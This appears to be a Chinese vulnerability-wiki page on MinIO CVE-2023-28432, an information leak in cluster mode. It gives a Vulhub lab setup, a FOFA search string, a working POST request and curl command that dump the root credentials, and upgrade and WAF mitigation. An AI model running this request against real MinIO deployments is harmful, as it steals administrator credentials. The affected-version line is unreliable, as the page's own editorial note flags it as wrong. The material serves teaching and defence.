



# MinIO 集群模式信息泄露漏洞 CVE-2023-28432

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：分布式/集群部署、bootstrap API可达；泄露取决于已配置MINIO_环境变量
- 证据范围：请求、API/Console端口区分清楚，凭据为Vulhub测试值；版本上限与官方修复矛盾需纠正。

### 已有来源支持的更正

- 确认修复版本排除，分布式条件；原始代码只收集MINIO_且跳过白名单；公告无已知workaround

### 本次正文校订

- 按实际内容修正 3 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 说进程所有环境变量过宽，官方代码只env.List(MINIO_)并排除skipEnvs，须按实际返回范围
- 缺影响起点2021-08-31等准确release边界
- WAF拒绝所有bootstrap POST可能阻碍正常集群初始化/互联，不能标官方已知完整workaround；官方称无已知workaround
- 若凭据已泄露仅升级不够，应补针对受影响凭据轮换的响应建议

### 核验来源

- https://github.com/minio/minio/security/advisories/GHSA-6xvq-wj2x-3h3q

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

MinIO是一个开源对象存储系统。

在其`RELEASE.2023-03-20T20-16-18Z`版本（不含）以前，集群模式部署下存在一处信息泄露漏洞，攻击者可以通过发送一个POST数据包获取进程所有的环境变量，其中就包含账号密码`MINIO_ROOT_USER`和`MINIO_ROOT_PASSWORD`。

参考链接：

- https://github.com/minio/minio/security/advisories/GHSA-6xvq-wj2x-3h3q
- https://mp.weixin.qq.com/s/GNhQLuzD8up3VcBRIinmgQ

## 漏洞影响

```
MinIO <= RELEASE.2023-03-20T20-16-18Z
```

## 网络测绘

```
app="minio"
```

## 环境搭建

Vulhub执行如下命令启动一个MinIO集群，其中包含3个以集群模式运行的服务：

```shell
docker-compose up -d
```

集群启动后，访问`http://your-ip:9001`可以查看Web管理页面，访问`http://your-ip:9000`是API服务。




## 漏洞复现

这个漏洞存在于API节点`http://your-ip:9000/minio/bootstrap/v1/verify`上，发送如下数据包即可查看泄露的环境变量：

```http
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: your-ip:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```




也可以直接 curl：

```shell
curl -XPOST http://your-ip:9000/minio/bootstrap/v1/verify
```

可见，其中包含`MINIO_ROOT_USER (accessKey)`和`MINIO_ROOT_PASSWORD (secretKey)`。使用这个账号密码，即可成功登录管理后台：

```
MINIO_ROOT_USER		minioadmin
MINIO_ROOT_PASSWORD	minioadmin-vulhub
```




## 漏洞修复

目前官方已发布安全修复版本，受影响用户可以升级到RELEASE.2023-03-20T20-16-18Z 及以上版本。

https://github.com/minio/minio/releases/tag/RELEASE.2023-03-20T20-16-18Z

临时修复方案，在 waf/ips 等安全产品上配置策略，拒绝所有 post 到 `/minio/bootstrap/v1/verify` 流量。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
